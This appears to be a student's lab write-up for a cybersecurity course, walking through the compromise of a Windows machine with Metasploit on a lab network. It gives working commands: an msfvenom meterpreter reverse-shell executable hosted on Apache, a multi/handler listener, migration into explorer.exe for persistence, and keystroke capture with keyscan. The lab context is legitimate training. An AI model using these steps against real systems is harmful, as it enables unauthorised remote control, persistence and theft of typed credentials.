 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
### Name : MONISHKUMAR.V
### Reg No : 212223040116
### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![if-config](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d81c29e7-4cb2-4989-a4f0-32d0f4dcffa5)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![msfvenom](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a8e477e7-1f5b-4831-a003-ffc199679313)

copy the fun.exe into the apache /var/www/html folder

![cpfunexe](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/edc15bf9-0646-4d77-a7b2-7fbe6adae449)

Start apache server
sudo systemctl apache2 start

![startapache2](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/f2bdb40b-22b8-409e-8295-7cac780eab89)

Check the status of apache2

![status](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d5dca89e-d102-408d-aa25-d60e7e09ff2b)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![usemultihandler](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/31c4d664-f12a-45a9-aa29-e988f03e88e1)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)






## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

